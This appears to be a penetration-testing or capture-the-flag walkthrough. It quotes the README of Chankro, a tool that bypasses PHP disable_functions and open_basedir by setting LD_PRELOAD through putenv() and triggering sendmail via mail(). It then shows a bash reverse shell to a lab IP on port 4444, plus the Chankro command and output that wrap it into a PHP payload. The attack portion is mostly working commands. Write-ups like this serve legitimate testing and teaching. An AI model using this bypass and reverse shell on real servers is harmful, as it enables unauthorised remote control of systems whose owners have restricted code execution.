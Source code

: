 ```http
[...]

<body>

[...]

            <a href="./index.php">
                <h1>Minimal</h1>
            </a>

[...]
       
</body>

</html>
```

<div>
	<img src="./assets/logo_github.png" alt="GitHub Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GitHub</strong></span>
</div>

[Chankro](https://github.com/TarlogicSecurity/Chankro/tree/master)

[**#Chankro**]

Your favourite tool to bypass **disable_functions** and **open_basedir** in your pentests.

PHP in Linux calls a binary (sendmail) when the mail() function is executed. If we have putenv() allowed, we can set the environment variable "LD_PRELOAD", so we can preload an arbitrary shared object. Our shared object will execute our custom payload (a binary or a bash script) without the PHP restrictions, so we can have a reverse shell, for example.
The syntax is pretty straightforward:
```
$ python2 chankro.py --arch 64 --input rev.sh --output chan.php --path /var/www/html
```
Note: path is the absolute path where our .so will be dropped.

`vim ./reverse_shell.sh`:
```sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.118/4444 0>&1 2>&1
```

`python2 chankro.py --arch 64 --input reverse_shell.sh --output reverse_shell.php --path /var/www/html`:
```
     -=[ Chankro ]=-
    -={ @TheXC3LL }=-


[+] Binary file: reverse_shell.sh
[+] Architecture: x64
[+] Final PHP: reverse_shell.php ←


[+] File created! ←
```
